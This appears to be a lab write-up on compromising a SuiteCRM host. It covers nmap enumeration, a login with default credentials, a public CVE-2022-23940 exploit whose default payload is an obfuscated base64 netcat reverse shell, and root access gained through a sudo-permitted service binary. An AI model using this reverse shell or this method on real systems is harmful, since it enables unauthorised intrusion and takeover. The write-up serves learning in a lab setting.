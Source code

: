 ## First enumeration with nmap

```shell
# Nmap 7.94SVN scan initiated Fri Mar  1 12:14:31 2024 as: nmap -sC -sV -T4 -oN normal.txt -p 22,80,3306,33060 -Pn 192.168.227.146
Nmap scan report for 192.168.227.146
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
|_http-server-header: Apache/2.4.38 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=3/1%Time=65E1B8A3%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar  1 12:17:44 2024 -- 1 IP address (1 host up) scanned in 193.55 seconds

```

## Enumerating port 80

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/dca21234-2ff8-4a8b-a2bd-4eea17d8bb17)

a web server is running on port `80`, openning it on a browser, we an see it is running `suitecrm` service. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3461072b-28cf-4d22-a27a-f17a9ed764fe)

trying default creds `admin:admin` and we are able to login to the administrator panel. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/36d759a8-df8a-4025-8f03-e74215e60dd0)

checking for `suitecrm` exploit, we got an exploit on searchsploit. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a8722ae5-0423-4662-a5b6-38a8bb78ebc6)

the searchsploit exploit did not work, found another exploit on github. [exploit](https://github.com/manuelz120/CVE-2022-23940). 

```python
@click.command("CVE-2022-23940",
               epilog="https://github.com/manuelz120/CVE-2022-23940")
@click.option(
    "--host",
    '-h',
    default="http://192.168.227.146",
    help="Root of SuiteCRM installation. Defaults to http://localhost")
@click.option("--username", '-u', prompt="Username> ", help="Username")
@click.option("--password",
              '-p',
              prompt="Password> ",
              help="password",
              hide_input=True)
@click.option("--payload",
              '-P',
              help="Shell command to be executed on target system",
              default='echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ1LjIxOCA0NDMgPi90bXAvZg== | base64 -d|bash')
@click.option("--is_core",
              '-d',
              default=False,
              help="SuiteCRM Core (>= 8.0.0). Defaults to False")
```
modified this path of the exploit

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c8bc90a9-2588-4dba-9282-3bea870ffd3f)

ran the exploit and got a reverse shell. 


## Privilege Escalation 

```shell
www-data@crane:/var/www/html$ sudo -l 
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
www-data@crane:/var/www/html$ 
```
checking for sudo permissions, we can see we can run `/usr/sbin/service` as root without password. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d90b4b5f-0b67-4434-bdb2-e19d89874076)

abusing the permission, we got root shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/72e74303-7fe3-4530-a934-aa5cd541714e)

and we are through 🙂
